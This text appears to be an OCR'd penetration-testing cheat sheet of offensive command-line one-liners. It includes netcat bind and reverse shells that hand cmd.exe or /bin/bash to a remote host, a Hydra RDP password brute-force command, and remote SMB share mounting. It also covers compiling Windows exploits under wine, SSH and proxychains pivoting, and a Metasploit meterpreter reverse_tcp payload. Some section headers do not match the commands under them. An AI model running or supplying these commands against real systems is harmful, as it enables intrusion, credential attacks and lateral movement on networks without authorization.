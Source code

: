 # Find files that are not owned by any group:
find / -nogroup -print

# Find symlinks and what they point to:
find / -type l -ls
Python shell
python -c 'import pty;pty.spawn("/bin/bash")'
Python\Ruby\PHP HTTP Server
python2 -m SimpleHTTPServer
python3 -m http.server
ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:8888
Get PIDs of process
fuser -nv tcp 80
fuser -k -n tcp 80
Hydra rdp Bruteforce
hydra -l admin -P /root/Desktop/passwords -S X.X.X.X rdp
Mount Remote Windows Share
smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw
Compiling Exploit in Kali
gcc -m32 -o output32 hello.c (32 bit)
gcc -m64 -o output hello.c (64 bit)
Compiling Windows Exploits on Kali
c:>nc -Lp 31337 -vv -e cmd.exe
nc 192.168.0.10 31337
c:>nc example.com 80 -e cmd.exe
nc -lp 80

nc -lp 31337 -e /bin/bash
nc 192.168.0.10 31337
nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000
Window reverse shell
wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
wine mingw-get-setup.exe
select mingw32-base
cd /root/.wine/drive_c/windows
wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
cd /root/.wine/drive_c/MinGW/bin
wine gcc -o ability.exe /tmp/exploit.c -lwsock32
wine ability.exe
NASM Commands
nasm -f bin -o payload.bin payload.asm
nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload
SSH Pivoting
ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target
SSH Pivoting from One Network to Another
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
Pivoting Using metasploit
route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E
